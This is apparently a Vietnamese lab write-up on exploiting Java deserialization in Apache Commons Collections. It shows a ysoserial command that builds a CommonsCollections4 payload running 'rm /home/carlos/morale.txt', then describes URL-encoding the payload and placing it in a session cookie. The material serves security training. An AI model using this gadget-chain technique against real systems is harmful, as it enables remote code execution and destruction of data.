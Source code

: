 ![image](https://hackmd.io/_uploads/B1lJ9KJjp.png)

## 8. Lab: Exploiting Java deserialization with Apache Commons

### Đề bài

![image](https://hackmd.io/_uploads/BJ4CfDP7Jl.png)

### Phân tích

- Phòng thí nghiệm này sử dụng cơ chế phiên dựa trên tuần tự hóa và tải thư viện Apache Commons Collections. Mặc dù bạn không có quyền truy cập mã nguồn, bạn vẫn có thể khai thác phòng thí nghiệm này bằng cách sử dụng các chuỗi tiện ích được xây dựng sẵn.

Để giải quyết phòng thí nghiệm, hãy sử dụng công cụ của bên thứ ba để tạo đối tượng tuần tự hóa độc hại chứa tải trọng thực thi mã từ xa. Sau đó, chuyển đối tượng này vào trang web để xóa tệp morale.txtkhỏi thư mục gốc của Carlos.

Bạn có thể đăng nhập vào tài khoản của mình bằng thông tin đăng nhập sau:wiener:peter

### Khai thác

- vào môi trường lab của CBJS chạy lệnh

```java
java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64 -w 0
```

![image](https://hackmd.io/_uploads/SJxGXvD71g.png)

- copy payload vào session

![image](https://hackmd.io/_uploads/SJYd7vPQkl.png)

- thấy server xử lý lỗi
- encode toàn bộ payload bằng URL encode

![image](https://hackmd.io/_uploads/ryXjQvPX1e.png)

- gửi request và solve được lab

![image](https://hackmd.io/_uploads/HyBJVDv7yl.png)
